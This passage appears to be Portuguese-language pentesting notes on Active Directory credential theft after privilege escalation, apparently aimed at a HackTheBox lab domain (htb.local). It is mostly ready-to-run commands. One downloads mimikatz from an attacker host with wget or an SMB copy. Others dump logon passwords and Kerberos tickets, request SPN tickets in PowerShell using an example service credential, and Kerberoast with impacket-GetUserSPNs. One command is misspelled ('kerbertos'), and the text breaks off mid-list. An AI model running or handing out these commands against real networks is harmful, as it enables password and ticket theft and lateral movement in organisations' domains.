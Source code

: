 **NESTA ETAPA É INTERESSANTE QUE TENHAMOS FEITO A ESCALAÇÃO DE PRIVILÉGIO PARA CONSEGUIR CONDUZIR MAIS ALGUNS TESTES, SENDO ELES:**

```
wget http://10.10.10.10/6-ADTools/mimikatz/x64/mimikatz.exe -O m.exe
#ou 
copy \\192.168.0.165\smb\mimikatz.exe c:\temp\m.exe
```

```
./m.exe
privilege::debug
sekurlsa::logonpasswords
```

Agora para tickets **kerberos**, podemos fazer da seguinte maneira:

```
./m.exe
privilege::debug
sekurlsa::tickets
```

Aqui teremos duas opções de extração, sendo elas TGS e TGT. No caso de já termos o acesso adm, basta obtermos o ticket do SPN da seguinte maneira:

```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList
'<SPN_Name>'
```

Caso não consiga, basta informar a credencial para que as coisas aconteçam:

```
$pass = ConvertTo-SecureString 's3rvice' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('htb.local\svc-alfresco',$pass)
get-domainspnticket -spn IMAP/EXCH01.htb.local -credential $cred
```

Depois podemos verificar que conseguimos o ticket de duas maneiras:

```
klist
```

ou

```
./m.exe
privilege::debug
kerbertos::list /export
```

Outra opção:

```
impacket-GetUserSPNs -dc-host forest.htb.local htb.local/svc-alfresco -k -no-pass
```

Ainda outra opção:

